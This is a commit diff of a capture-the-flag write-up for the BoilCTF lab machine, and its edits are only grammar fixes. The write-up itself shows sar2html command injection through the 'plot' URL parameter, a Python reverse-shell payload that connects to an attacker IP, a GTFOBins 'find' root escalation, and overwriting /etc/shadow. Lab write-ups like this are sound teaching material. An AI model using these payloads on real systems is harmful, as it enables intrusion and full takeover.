

Before and after one commit to 0xt1m/ctf, a Markdown page: BoilCTF/report.md, 3 parts joined by grey strips. Shown at 97% size. Rendered like a GitHub page.

````diff
--- a/BoilCTF/report.md
+++ b/BoilCTF/report.md
@@ -1,7 +1,7 @@
 # BoilCTF
 IP: 10.10.8.187
 <br>
-First of all went to the ip in the browser and found apache2 server running. Then I went to robot.txt and found some interesting stuff there:
+First of all went to the IP in the browser and found the apache2 server running. Then I went to robot.txt and found some interesting stuff there:
 
 ```
 User-agent: *
@@ -55,20 +55,20 @@ After some time, I realized that I need another tactic. I remembered that there
 ![sar2html](./imgs/sar2html.png)
 Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
-This is a good url which supposed to give us something whatever.<br>
+This is a good URL which supposed to give us something whatever.<br>
 http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
 But if we change it to:
 http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
-we get some additional result there, which is a response to our command:
+we get some additional results there, which is a response to our command:
 ![whoami](./imgs/whoami.png)
 
-I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
+I set up an _nc_ listener on port *2222* and used a simple Python reverse-shell which I found on the internet. Therefore, eventually, my URL looked like this:<br>
 ```
 http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
 ```
 
-And at this point we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
+And at this point, we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
 ![log.txt](./imgs/log.txt.png)
-So we got usernames and password there.
+So we got usernames and passwords there.
 username: _basterd_<br>
 username: _pentest_<br>
 password: _superduperp@$$_<br>
@@ -83,12 +83,12 @@ I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalat
 ```
 find . -exec /bin/sh -p \; -quit
 ```
-So I excuted it and got root.
+So I executed it and got root.
 
 Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
-ssh was not on port 22 it. Reading ssh config file (/etc/ssh/sshd_conf) found that it was running on port 55007.
+SSH was not on port 22. Reading the ssh config file (`/etc/ssh/sshd_conf`) found that it was running on port `55007`.
 
-Also I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
+Also, I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
 ```
 openssl passwd -6 -salt xyz yourpass
 $6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
````
Also changed, not shown: other parts of BoilCTF/report.md (+2 -2 lines).
